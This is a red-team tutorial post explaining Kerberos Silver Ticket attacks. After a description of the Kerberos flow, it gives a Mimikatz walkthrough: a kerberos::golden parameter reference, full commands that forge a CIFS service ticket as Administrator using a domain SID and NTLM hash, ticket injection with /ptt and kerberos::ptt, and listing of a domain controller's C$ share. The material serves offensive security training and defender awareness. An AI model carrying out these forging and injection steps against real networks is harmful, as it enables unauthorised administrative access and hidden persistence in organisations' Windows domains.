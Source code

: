 ```yaml
---
title:  "Kerberos attacks 3-Silver Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 1-Silver Ticket"
categories:
  - Red-Teaming
toc: true
---
```


<img src="/img/silver/.PNG" alt="Getting-gz" width="1000" height="200"> 

## Goal
Forge service ticket
## Silver Ticket
* Technique to maintain persistence in an already compromised domain
* A Silver Ticket is a forged Kerberos Ticket Granting Service (TGS) ticket
* A silver ticket attack involves compromising credentials and abusing the design of the Kerberos protocol. 
* A silver ticket only allows an attacker for forge ticket-granting service (TGS) tickets for specific services.
* TGS tickets are encrypted with the password hash for the service – therefore, if an adversary steals the hash for a service account they can mint TGS tickets for that service.
* A attacker can create a Silver Ticket by cracking a computer account password and using that to create a fake authentication ticket. Kerberos allows services to log in without double-checking that their token is actually valid, which attackers have exploited to create Silver Tickets.


## Kerberos Authentication Flow
  * 1-Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request
  * 2-KDC checks user information and creates TGT
  * 3-The TGT is encrypted, delivered to the user. Only the KRBTGT in the domain can open and read TGT data.
  * 4-The User presents the TGT to the DC when requesting a TGS ticket ,The DC opens the TGT & validates PAC checksum 
       --> If the DC can open the ticket & the checksum check out, TGT = valid. The data in the TGT is effectively copied to create the TGS ticket.
  * 5-The TGS is encrypted using the target service accounts’ NTLM password hash and sent to the user 
  * 6.The user connects to the server hosting the service & presents the TGS,The service opens the TGS ticket using its NTLM password hash.

 

## Silver Ticket Attacks Work 
Silver Ticket Attacks are post-exploitation attacks. That means that a threat actor must already have compromised a target system in the environment before they can generate a Kerberos Silver Ticket.

  * 1-gather information about the domain, such as the domain name and domain security identifier (SID)
  * 2-Obtain the DNS name under which the service principal name (SPN) for the targeted
  * 3-Use Mimikatz to obtain the local NTLM password (or password hash) for the Kerberos service running on the compromised system
  * 4-Use Mimikatz to forge a Kerberos TGS


## Argument
```
kerberos::golden     ##Name of the module (there is no Silver module) 
/User:Administrator  ##Username for which the TGT is generated 
/domain :karim.net   ## Domain Name 
/sid:S-1-5-21-750046758-1551849808-2392872301 ## SID of the domain 
/target : win10.karim.net ## Target machine
/service: cifs  The SPN name of service for which TGS is to be created 
/rc4:6f5b5acaf7433b3282ac22e21e62ff22  ## NTLM  hash of the service account.
/id:500 /groups:512    ## Optional User RID (default 500) and Group (default 513 512 520 518 519) 
/ptt    ##Injects the ticket in current PowerShell process, no  to save the ticket on disk 
/startoffset:0  (Optional)the start offset when the ticket is available (default 0)
/endin:600 ##Optional ticket lifetime (default is 10 years) . The default AD setting is 10 hours = 600 minutes
/renewmax:10080 ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
                
 ```
 

 ## group identifier
```
512 ##Domain Admins
513 ##Domain Users
518 ##Schema Admins
519 ##Enterprise Admins
520 ##Group Policy Creator Owners
```
Getting a user's SID
```
whoami /user
```
<img src="/img/silver/sid.PNG" alt="Getting-gz" width="1000" height="200"> 

Create the ticket
```
kerberos::golden /user:Administrator /domain:karim.net /rc4:de26cce0356891a4a020e7c4957afc72 /target:domainAD.karim.com /sid:S-1-5-21-750046758-1551849808-2392872301 /service:CIFS /id:500 /ptt
```

<img src="/img/silver/go.PNG" alt="Getting-gz" width="1000" height="200"> 

 
List current tickets
```
klist
```

<img src="/img/silver/klist.PNG" alt="Getting-gz" width="1000" height="200">
```
 dir \\domainAD.karim.net\c$
 ```
 <img src="/img/silver/da.PNG" alt="Getting-gz" width="1000" height="200"> 

save in file
``` 
kerberos::golden /user:Administrator /domain:karim.net /rc4:de26cce0356891a4a020e7c4957afc72 /target:domainAD.karim.com /sid:S-1-5-21-750046758-1551849808-2392872301 /service:CIFS /id:500 
 ```

<img src="/img/silver/f1.PNG" alt="Getting-gz" width="1000" height="200"> 

Inject in memory using mimikatz 
```
kerberos::ptt  ticket.kirbi
```
  
<img src="/img/silver/f2.PNG" alt="Getting-gz" width="1000" height="200"> 


